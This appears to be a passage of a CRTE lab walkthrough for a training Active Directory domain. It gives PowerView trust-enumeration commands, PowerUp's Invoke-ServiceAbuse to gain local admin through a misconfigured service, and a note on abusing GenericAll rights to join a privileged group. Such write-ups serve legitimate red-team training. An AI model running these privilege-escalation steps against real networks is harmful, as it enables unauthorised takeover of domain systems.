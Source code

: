 # CRTE Lab

## Flag 1,2 - Domain Enumeration

Enumerate following for the us.techcorp.local domain:

* Users&#x20;
* &#x20;Computers&#x20;
* &#x20;Domain Administrators&#x20;
* &#x20;Enterprise Administrators&#x20;
* &#x20;Kerberos Policy

Use BloodHound to do it or ad module

## Flag 3,4 - Trust Enumeration

To list only the external trusts using PowerView:

{% code overflow="wrap" %}
```powershell
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine.png" alt=""><figcaption></figcaption></figure>

The trust is bidirectional, so enumerate the trust that eu.local has

```powershell
Get-ForestTrust -Forest eu.local
```

<figure><img src="../.gitbook/assets/immagine (1).png" alt=""><figcaption></figcaption></figure>

## FLAG 5/6 - Name of the service for privesc on local machine

* Exploit a service on studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentuserx has local administrative access due to group membership.

Use PowerUp to find a privesc

```powershell
Invoke-AllChecks
```

<figure><img src="../.gitbook/assets/immagine (2).png" alt=""><figcaption></figcaption></figure>

And exploit the service

```powershell
Invoke-ServiceAbuse -Name 'ALG' -UserName us\studentuser64
```

Now log off and log on to gain admin privileges

Import PowerView to find computer wjere we have access as Local Admin

```powershell
Find-LocalAdminAccess
```

Nothing but you can see from bloodhound that the group studentuser is enrolled in the Managers group

Managers group has generic all on MachineAdmins Group, so with AdModule we can add ourself to this group.

